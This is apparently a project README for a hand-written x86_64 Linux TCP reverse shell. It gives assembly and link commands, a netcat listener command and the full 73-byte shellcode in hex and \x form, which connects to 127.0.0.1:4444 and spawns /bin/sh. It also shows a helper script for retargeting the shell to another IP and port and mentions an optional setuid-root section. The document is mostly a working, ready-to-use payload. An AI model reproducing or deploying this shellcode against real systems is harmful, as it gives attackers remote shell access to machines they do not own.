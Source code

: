 Linux TCP reverse shell for x86_64 architecture.

This is sort of a continuation of the [KiD project](https://github.com/Xre0uS/KiD), instead of generating a shellcode using msfvenon, it's written by me.

Assembling and linking:

```shell
nasm -f elf64 reverse.asm
ld reverse.o -o reverse
```

It works as expected on its own, catch the shell with `nc -lvnp 4444`.

Get the shellcode/opcode with [pwntools](https://github.com/Gallopsled/pwntools):

```python
python3
>>> from pwn import *
>>> file = ELF("reverse")
>>> shellcode = file.section(".text")
>>> print(shellcode.hex())
6a29586a025f6a015e990f0597b02a5248be0200115c7f000001564889e6b2100f056a025eb0210f0540fece79f7b03b6a0048bf2f2f62696e2f7368574889e76a004889e6b2000f05
```

Or print it with `\x` notation for C programs:

```python
>>> print(''.join(f'\\x{byte:02x}' for byte in shellcode))
\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x97\xb0\x2a\x52\x48\xbe\x02\x00\x11\x5c\x7f\x00\x00\x01\x56\x48\x89\xe6\xb2\x10\x0f\x05\x6a\x02\x5e\xb0\x21\x0f\x05\x40\xfe\xce\x79\xf7\xb0\x3b\x6a\x00\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x48\x89\xe7\x6a\x00\x48\x89\xe6\xb2\x00\x0f\x05
```

The shellcode is 73 bytes in size.

There's a section to set uid to root, it's commented out since it won't work if the account executing the shellcode is not root, uncomment if root will be executing.

I've also included a simple script to convert IP and port to hexadecimal in little endian to easily modify the reverse shell.

```bash
./addr2asm.sh 127.0.0.1 4444
0x0100007f5c110002
```

Change the IP and port at line 20.